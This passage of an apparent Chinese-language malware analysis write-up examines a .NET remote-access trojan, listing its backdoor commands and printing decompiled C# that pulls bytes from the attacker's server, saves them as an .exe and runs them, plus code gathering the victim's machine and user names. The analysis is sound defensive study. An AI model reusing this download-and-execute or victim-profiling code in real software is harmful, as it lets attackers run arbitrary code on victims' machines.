 
### 加解密演算法
就我本身的理解，看不太出來哪邊有特別做到加解密的事情，每一個步驟幾乎都只是一般的unscramble或是decompress可以解釋的地方
### 後門功能
1. Screenshot→
                `dlrarhsiva/dlrarhsiva.cxc/dlrarhsiva/SLCLRNS/dlrarhsivascreen`
    ![image](https://hackmd.io/_uploads/HyBqS-XTp.png)
2. Remove User→`dlrarhsiva/dlrarhsiva.cxc/dlrarhsiva/OLRDMR/dlrarhsivaremove_user`
    這一段我認為是想辦法把一些資料pull下來後，並且直接執行remove user的動作，所以實際跟進去==dlrarhsivapull_data==這個method，會發現的確如我所預測，只不過實作的方法是他先從server那一端看有多少的bytes需要pull，然後把該值轉成int後就直接pull資料
    :::spoiler dlrarhsivapull_data() Source Code
    ```csharp!
    // dlrarhsiva.OLRDMR
    // Token: 0x06000036 RID: 54 RVA: 0x0000480C File Offset: 0x00002A0C
    public void dlrarhsivaremove_user()
    {
        try
        {
            byte[] array = this.server.dlrarhsivapull_data();
            if (array != null)
            {
                if (!File.Exists(DLAONIF.dlrarhsivaget_mpath() + DLAONIF.dlrarhsivaremvUser + ".exe"))
                {
                    File.WriteAllBytes(DLAONIF.dlrarhsivaget_mpath() + DLAONIF.dlrarhsivaremvUser + ".exe", array);
                    this.dlrarhsivado_process(DLAONIF.dlrarhsivaget_mpath() + DLAONIF.dlrarhsivaremvUser + ".exe");
                }
            }
        }
        catch
        {
        }
    }
    ```
    :::
3. Fetch Victim's Info→`dlrarhsiva/dlrarhsiva.cxc/dlrarhsiva/MLRLEINF/dlrarhsivaInfo`
    從以下source code可以知道使用Info這個command可以得知victim的Username或是MachineName
    :::spoiler dlrarhsivaInfo() Source Code
    ```csharp
    // dlrarhsiva.MLRLEINF
    // Token: 0x06000031 RID: 49 RVA: 0x0000472C File Offset: 0x0000292C
    private void dlrarhsivaInfo()
    {
        this.dlrarhsivaapver = "M.0.0.5|dlrarhsiva".Split(new char[]
        {
            '|'
        })[0];
        this.dlrarhsivacname = Environment.MachineName;
        this.dlrarhsivauname = Environment.UserName;
        this.dlrarhsivauip = "";
        this.dlrarhsivalancard = "";
    }
    ```
    :::
4. Others
    由於攻擊者可以使用的command實在是太多了，所以就直接列出來看比較清楚
    ![image](https://hackmd.io/_uploads/Hyb8sb766.png)
    比較重要的是get_command這個method，這個就和前面提到的pull data那個差不多，只是他後面還會帶上command和argument，便於下一些指令
